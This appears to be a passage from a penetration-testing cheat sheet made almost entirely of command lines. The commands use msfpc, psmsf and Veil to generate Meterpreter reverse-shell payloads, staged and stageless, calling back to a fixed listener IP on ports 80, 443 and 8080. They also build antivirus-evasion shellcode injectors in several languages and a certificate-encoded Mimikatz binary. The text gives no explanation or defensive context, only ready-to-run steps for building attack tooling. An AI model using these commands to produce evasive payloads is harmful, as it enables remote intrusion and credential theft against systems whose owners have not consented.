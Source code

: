 {% highlight PowerShell %}
apt-get install msfpc
msfpc 10.140.174.142 8080 loop verbose
msfpc 10.140.174.142 443 loop verbose
msfpc 10.140.174.142 80 loop verbose
{% endhighlight %}

PSMSF - Create all these with 80,443,8080

{% highlight PowerShell %}
./psmsf --attacktype ps --payload windows/meterpreter/reverse_tcp --lhost 10.140.174.142 --lport 8080 --output /pentesting/payloads/
mv /pentesting/payloads/powershell_hacking.bat /pentesting/payloads/psmsf-windows-meterpreter-staged-reverse-tcp-8080.bat
mv /pentesting/payloads/powershell_msf.rc /pentesting/payloads/psmsf-windows-meterpreter-staged-reverse-tcp-8080.rc

./psmsf --attacktype ps --payload windows/meterpreter_reverse_tcp --lhost 10.140.174.142 --lport 8080 --output /pentesting/payloads/
mv /pentesting/payloads/powershell_hacking.bat /pentesting/payloads/psmsf-windows-meterpreter-stageless-reverse-tcp-8080.bat
mv /pentesting/payloads/powershell_msf.rc /pentesting/payloads/psmsf-windows-meterpreter-stageless-reverse-tcp-8080.rc
{% endhighlight %}

PMSF Encoded Binaries

{% highlight PowerShell %}
./psmsf --attacktype crt --filename /usr/share/mimikatz/x64/mimikatz.exe --output /pentesting/payloads/
mv /pentesting/payloads/cert_decode.bat /pentesting/payloads/mimikatz_cert_decode.bat
mv /pentesting/payloads/cert_encode.crt /pentesting/payloads/mimikatz_cert_encode.crt
{% endhighlight %}

Veil - Create all these with 80,443,8080

{% highlight PowerShell %}
cd /opt/veil
./Veil.py --clean
./Veil.py -t Evasion -p 5   --ordnance-payload rev_http --ip 10.140.174.142 --port 443 -o veil-c-meterpreter-rev-http-443
./Veil.py -t Evasion -p 7 --ordnance-payload rev_tcp --ip 10.140.174.142 --port 443 -o  veil-c-meterpreter-rev-tcp-443
./Veil.py -t Evasion -p 10 --ordnance-payload rev_https --ip 10.140.174.142 --port 443 -o   veil-cs-meterpreter-rev-https-443
./Veil.py -t Evasion -p 11 --ordnance-payload rev_tcp --ip 10.140.174.142 --port 443 -o     veil-cs-meterpreter-rev-tcp-443
./Veil.py -t Evasion -p 15 --ordnance-payload rev_https --ip 10.140.174.142 --port 443 -o veil-go-meterpreter-rev-https-443
./Veil.py -t Evasion -p 16 --ordnance-payload rev_tcp --ip 10.140.174.142 --port 443 -o     veil-go-meterpreter-rev-tcp-443
./Veil.py -t Evasion -p 18 --ip 10.140.174.142 --port 443 -o    veil-lua-shellcode-inject-flat-443
./Veil.py -t Evasion -p 21 --ordnance-payload rev_https  --ip 10.140.174.142 --port 443 -o  veil-powershell-meterpreter-rev-https-443
./Veil.py -t Evasion -p 22 --ordnance-payload rev_tcp --ip 10.140.174.142 --port 443 -o     veil-powershell-meterpreter-rev_tcp-443
./Veil.py -t Evasion -p 25   --ip 10.140.174.142 --port 443 -o veil-python-meterpreter-bind_tcp-443
./Veil.py -t Evasion -p 27 --ordnance-payload rev_https --ip 10.140.174.142 --port 443 -o   veil-python-meterpreter-rev-https-443
./Veil.py -t Evasion -p 28 --ordnance-payload rev_tcp --ip 10.140.174.142 --port 443 -o     veil-python-meterpreter-rev-tcp-443
./Veil.py -t Evasion -p 29   --ip 10.140.174.142 --port 443 -o veil-python-shellcode-inject-aes-encrypt-443
./Veil.py -t Evasion -p 38 --ordnance-payload rev_https  --ip 10.140.174.142 --port 443 -o veil-ruby-meterpreter-rev-https-443
./Veil.py -t Evasion -p 39 --ordnance-payload rev_tcp    --ip 10.140.174.142 --port 443 -o veil-ruby-meterpreter-rev-tcp-443